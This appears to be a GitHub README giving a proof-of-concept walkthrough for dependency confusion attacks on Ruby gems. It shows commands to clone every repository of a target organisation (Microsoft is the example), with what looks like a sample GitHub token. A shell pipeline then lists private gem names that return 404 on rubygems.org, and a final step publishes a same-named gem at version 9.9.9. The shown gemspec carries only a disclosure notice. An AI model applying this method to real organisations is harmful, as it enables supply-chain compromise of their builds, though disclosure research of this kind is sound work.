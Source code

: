 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Ruby Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>
  
  
## How to Finds & How to Exploit
    
Finds Gemfile then check the all require here is public or not
    
`https://rubygems.org/gems/`

#### Download all target github repository
 
 - Crate personal access tokens (classic) - https://github.com/settings/tokens 
 - Install ghorg - https://github.com/gabrie30/ghorg#installation
    
 ```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone microsoft -t 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`
    
- After Download all repository finds vulnerable ruby package 
    
```bash
$ find . -type f -name Gemfile | xargs -n1 -I{} cat {} | awk '/gem / {print}' | grep gem | cut -d "'" -f2 | sort -u | tr -d "'" | tr -d "," |  xargs -n1 -I{} echo "https://rubygems.org/gems/{}" |  httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly, so this the vulnerable to dependencies confusion attack.
    
- Then must be cross checking using github dorking - `org:microsoft package_name`
    
- So now Publish this ruby packages publicly (https://rubygems.org)
    
```bash
$ bundle gem <package_name>
```
- Everything set default
    
```bash
$ cd <package_name>
```
```bash
$ nano <package_name>.gem
```
- Replaced -
    ```bash
    Gem::Specification.new do |s|
  s.name        = "<package_name>"
  s.version     = "9.9.9"
  s.summary     = "Vulnerability Disclosure: Dependency confiuse vulnerability"
  s.description = "This Ruby package vulnerable to dependency confiuse vulnerability"
  s.authors     = ["Anindya Ghoshal"]
  s.email       = "techghoshal@gmail.com"
  s.files       = ["lib/mygem.rb"]
  s.homepage    =
    "https://rubygems.org/gems/<package_name>"
  s.license       = "MIT"
end
```
    
    
 
    
    
    
    
    
    
    
